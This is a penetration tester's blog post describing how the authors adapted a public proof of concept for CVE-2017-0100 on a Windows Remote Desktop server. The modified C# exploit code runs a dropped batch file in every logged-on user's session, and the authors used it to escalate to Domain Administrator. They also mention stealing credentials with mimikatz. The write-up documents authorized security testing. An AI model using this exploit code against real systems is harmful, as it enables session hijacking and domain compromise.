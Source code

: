 ```yaml
---
layout: post
title:  "From Patch Tuesday to DA"
date:   2017-03-17 19:45:31 +0530
categories: Archive
author: Julian Catrambone
tags: [Priv-Esc,Exploit]
---
```


Recently on an assessment I was stuck in the context of a user with low privileges on a Windows Server 2012 R2 system. This server functioned as a Remote Desktop server for the organization. I knew that if we could escalate to local administrator on that server, we would be able to use mimikatz to steal Domain Administrator credentials.

I was working with [Chris Myers](https://www.linkedin.com/in/chris-myers-54326155/)  and we had tried almost everything. Right when we were about to move on, CVE-2017-0100 came to our attention. It was the perfect vulnerability for our situation. In theory it should allow us to execute a payload on every user with an active session on the remote desktop server. The vulnerability and proof-of-concept exploit was submitted by [James Forshaw](https://bugs.chromium.org/p/project-zero/issues/detail?id=1021);  we modified it to fit our situation. The proof of concept uses session monikers with a DCOM activator to allow a user to start an arbitrary process in another logged on user’s session.

After analyzing the original proof of concept, we still needed to make a few modifications to fit it to our situation.


## 1) Identify what types of payloads were viable with this exploit, and modify how the payload is identified and executed.


Here is the original code:

{% highlight csharp %}
Console.WriteLine("Creating Process in Session {0} after 20secs", new_session_id);
Thread.Sleep(20000);
IHxHelpPaneServer server = (IHxHelpPaneServer)Marshal.BindToMoniker(String.Format("session:{0}!new:8cec58ae-07a1-11d9-b15e-000d56bfe6ee", new_session_id));
Uri target = new Uri(Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.System), "notepad.exe"));
server.Execute(target.AbsoluteUri);
{% endhighlight %}

After identifying that the target parameter was essentially just a path to an executable, the first thing we attempted was to try a Regsvr32.exe payload brought to light by [Casey Smith's](https://twitter.com/subTee) [blog post](http://subt0x10.blogspot.com/2016/04/bypass-application-whitelisting-script.html).  However, we were unable to get the IHxHelpPaneServer server’s execute function to take parameters.

We decided that dropping a small .bat file to disk was an acceptable risk, and found a path that was accessible to every user, “C:\TEMP\”.

Here is our modified code:

{% highlight csharp %}
Console.WriteLine("Creating Process in Session {0} after 20secs", new_session_id);
Thread.Sleep(20000);
IHxHelpPaneServer server = (IHxHelpPaneServer)Marshal.BindToMoniker(String.Format("session:{0}!new:8cec58ae-07a1-11d9-b15e-000d56bfe6ee", new_session_id));
Uri target = new Uri("C:\\TEMP\\testing.bat");
server.Execute(target.AbsoluteUri);
{% endhighlight %}



## 2) Allow the exploit to execute code on each session instead of only one.


The original proof of concept would gather a session id for each session on the host, but then only execute code on one session.

Here is the original code:

{% highlight csharp %}
try
{
    int current_session_id = Process.GetCurrentProcess().SessionId;
    int new_session_id = 0;
    Console.WriteLine("Waiting For a Target Session");
    while (true)
    {
        IEnumerable<int> sessions = GetSessionIds().Where(id => id != current_session_id);
        if (sessions.Count() > 0)
        {
            new_session_id = sessions.First();
            break;
        }
        Thread.Sleep(1000);
    }
}
{% endhighlight %}

Our situation demanded that we could execute code in each user's context, instead of only the first session recorded. To do this we simply randomly picked a session in the existing “sessions” IEnumerable object, and use that session to execute our payload. Due to the nature of random selection, you may execute code on the same user twice; however, due to time constraints we were willing to accept that outcome.

Here is our modified code:

{% highlight csharp %}
try
{
    int current_session_id = Process.GetCurrentProcess().SessionId;
    int new_session_id = 0;
    Console.WriteLine("Waiting For a Target Session");
    while (true)
    {
        IEnumerable<int> sessions = GetSessionIds().Where(id => id != current_session_id);
        if (sessions.Count() > 0)
        {
            Random rnd = new Random();
            int r = rnd.Next(sessions.Count());
            new_session_id = sessions.ElementAt(r);
            break;
        }
        Thread.Sleep(1000);
    }

}
{% endhighlight %}


## 3) Keep the exploit running, until we manually kill the process...


The original code would execute once and then exit. In order to solve this problem we simply let the IHxHelpPaneServer execute functionality inside of a while loop.

Here is the original code:

{% highlight csharp %}
try
{
    int current_session_id = Process.GetCurrentProcess().SessionId;
    int new_session_id = 0;
    Console.WriteLine("Waiting For a Target Session");
    while (true)
    {
        IEnumerable<int> sessions = GetSessionIds().Where(id => id != current_session_id);
        if (sessions.Count() > 0)
        {
            new_session_id = sessions.First();
            break;
        }
        Thread.Sleep(1000);
    }

    Console.WriteLine("Creating Process in Session {0} after 20secs", new_session_id);
    Thread.Sleep(20000);
    IHxHelpPaneServer server = (IHxHelpPaneServer)Marshal.BindToMoniker(String.Format("session:{0}!new:8cec58ae-07a1-11d9-b15e-000d56bfe6ee", new_session_id));
    Uri target = new Uri(Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.System), "notepad.exe"));
    server.Execute(target.AbsoluteUri);
}
catch (Exception ex)
{
    Console.WriteLine(ex);
}
{% endhighlight %}

And here is our modified code:

{% highlight csharp %}
try
{
    int current_session_id = Process.GetCurrentProcess().SessionId;
    int new_session_id = 0;
    Console.WriteLine("Waiting For a Target Session");
    while (true)
    {
        IEnumerable<int> sessions = GetSessionIds().Where(id => id != current_session_id);
        if (sessions.Count() > 0)
        {
            Random rnd = new Random();
            int r = rnd.Next(sessions.Count());
            new_session_id = sessions.ElementAt(r);
            Console.WriteLine("Creating Process in Session {0} after 20secs", new_session_id);
            Thread.Sleep(20000);
            IHxHelpPaneServer server = (IHxHelpPaneServer)Marshal.BindToMoniker(String.Format("session:{0}!new:8cec58ae-07a1-11d9-b15e-000d56bfe6ee", new_session_id));
            Uri target = new Uri("C:\\TEMP\\testing.bat");
            server.Execute(target.AbsoluteUri);
        }
        Thread.Sleep(60000);
    }

}
catch (Exception ex)
{
    Console.WriteLine(ex);
}
{% endhighlight %}

## In Conclusion

We understand that our modifications may not be perfect, but we were able to take [James Forshaw's](https://bugs.chromium.org/p/project-zero/issues/detail?id=1021) amazing work and mold it to our situation. In the end, we successfully spawned shells in each user’s context on the remote desktop server. Using those privileges we were able to escalate to Domain Administrator.

None of this would be possible without [James Forshaw](https://twitter.com/tiraniddo) for developing and releasing the original proof of concept, and [Chris Myers](https://www.linkedin.com/in/chris-myers-54326155/) for working through this problem with me!
